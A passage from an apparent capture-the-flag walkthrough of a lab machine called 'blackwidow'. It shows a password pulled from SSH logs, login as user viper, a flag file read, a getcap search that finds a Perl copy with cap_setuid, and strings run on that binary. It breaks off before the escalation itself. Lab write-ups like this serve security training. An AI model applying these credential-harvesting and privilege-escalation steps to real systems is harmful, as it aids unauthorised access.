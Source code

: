   Dec 12 16:56:43 test sshd[29560]: Invalid user ?V1p3r2020!? from 192.168.1.109 port 7090
  Dec 12 16:56:43 test sshd[29560]: Invalid user ?V1p3r2020!? from 192.168.1.109 port 7090
  www-data@blackwidow:/var/backups$
{% endhighlight %}

- Credentials `viper`:`?V1p3r2020!?`

## User

{% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ ssh viper@10.0.2.190                                                  255 ⨯
  viper@10.0.2.190's password: ?V1p3r2020!?
  Linux blackwidow 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

  The programs included with the Debian GNU/Linux system are free software;
  the exact distribution terms for each program are described in the
  individual files in /usr/share/doc/*/copyright.

  Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
  permitted by applicable law.
  Last login: Thu Dec 24 08:44:58 2020 from 192.168.1.103
  viper@blackwidow:~$ id
  uid=1001(viper) gid=1001(viper) groups=1001(viper)
  viper@blackwidow:~$ ls
  backup_site  local.txt
  viper@blackwidow:~$ cat local.txt
  d930fe79919376e6d08972dae222526b
  viper@blackwidow:~$
{% endhighlight %}

## Linux Capabilities

{% highlight sh %}
  viper@blackwidow:~$ /usr/sbin/getcap -r / 2>/dev/null
  /home/viper/backup_site/assets/vendor/weapon/arsenic = cap_setuid+ep
  /usr/bin/perl =
  /usr/bin/perl5.28.1 =
  /usr/bin/ping = cap_net_raw+ep
  /usr/lib/squid/pinger = cap_net_raw+ep
  viper@blackwidow:~$
{% endhighlight %}

## Root

- Download the arsenic binary
- Strings
- Perl

{% highlight sh %}
  ┌──(alienum㉿kali)-[~/Desktop]
  └─$ strings arsenic | grep -i "perl" | head -n 10
  Perl_pp_shmwrite
  Perl_sv_chop
  Perl_sv_setnv_mg
  Perl_instr
  Perl_package_version
  Perl_bytes_from_utf8
  Perl_rninstr
  Perl_sighandler
  Perl_sv_taint
  PerlIO_cleantable
  ...
{% endhighlight %}
